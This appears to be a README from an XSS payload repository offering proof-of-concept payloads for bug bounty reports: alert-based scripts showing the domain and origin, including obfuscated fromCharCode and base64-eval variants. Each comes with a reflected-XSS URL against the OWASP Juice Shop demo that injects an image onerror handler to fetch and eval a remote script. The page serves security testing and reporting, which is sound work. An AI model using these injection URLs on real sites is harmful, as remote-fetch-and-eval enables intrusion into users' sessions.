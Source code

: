 # Simple Proof of Concept (PoC)

<p align="justify">This chapter covers an important topic, related to confirming the existence and exploitability of an XSS vulnerability - providing a simple technical Proof of Concept (PoC).</p>

<p align="justify">For this purpose, for a long time across the technical IT security industry, <b><code>alert(1)</code></b> has been used, almost exclusively. As already <b>explained by LiveOverflow [1]</b> in detail, this is a <b>bad practice</b> and <b>should be avoided</b>.</p>

<p align="justify">The payloads documented here provide ready-to-use alternatives, all of which address the mentioned issue.</p>

* **NOTE**: this is not an exhaustive list - further options of modifying the payload exist
    * the payloads listed here serve the purpose of providing a proven fast and simple PoC for reporting XSS vulnerabilities (e.g. via Bug Bounty platforms)
        * any additional impact is to be demonstrated via additional PoC(s) (i.e. these one serve only as a quick check that the vulnerability exists on the affected web application - to pass initial triage)
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
    * list may be updated with additional encoding variants

## `simpleStd.js` - round brackets; quote; space; backslash

```
alert('DOMAIN: '.concat(document.domain).concat('\nORIGIN: ').concat(window.origin));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleDec.js` - round brackets
```
alert(String.fromCharCode(68,79,77,65,73,78,58,32).concat(document.domain).concat(String.fromCharCode(10,79,82,73,71,73,78,58,32)).concat(window.origin));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleDec.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleB64.js` - round brackets, quote, `eval()`
```
eval(atob('YWxlcnQoJ0RPTUFJTjogJy5jb25jYXQoZG9jdW1lbnQuZG9tYWluKS5jb25jYXQoJ1xuT1JJR0lOOiAnKS5jb25jYXQod2luZG93Lm9yaWdpbikpOwo='));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleB64.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## References

* [https://liveoverflow.com/do-not-use-alert-1-in-xss/](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
